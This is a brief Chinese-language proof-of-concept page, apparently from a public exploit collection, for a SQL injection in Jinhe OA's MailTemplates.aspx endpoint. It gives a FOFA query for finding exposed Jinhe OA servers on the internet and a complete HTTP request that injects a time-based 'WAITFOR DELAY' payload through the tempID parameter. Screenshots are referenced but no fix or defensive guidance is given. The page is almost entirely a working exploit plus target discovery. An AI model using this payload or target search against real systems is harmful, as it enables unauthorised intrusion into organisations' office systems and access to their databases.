 ## 金和OA_MailTemplates.aspx_SQL注入漏洞

## fofa
```
app="金和网络-金和OA"
```

## poc
```
GET /C6/JHSoft.Web.Mail/MailTemplates.aspx/?tempID=1%3BWAITFOR+DELAY+%270%3A0%3A3%27-- HTTP/1.1
Host: you_ip
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close

```

![image](https://github.com/wy876/POC/assets/139549762/e0ea8fe9-db1d-4f17-ba75-d8dc01cb085f)

![image](https://github.com/wy876/POC/assets/139549762/c3b40a68-6354-4667-ba6c-5f061b5f050f)

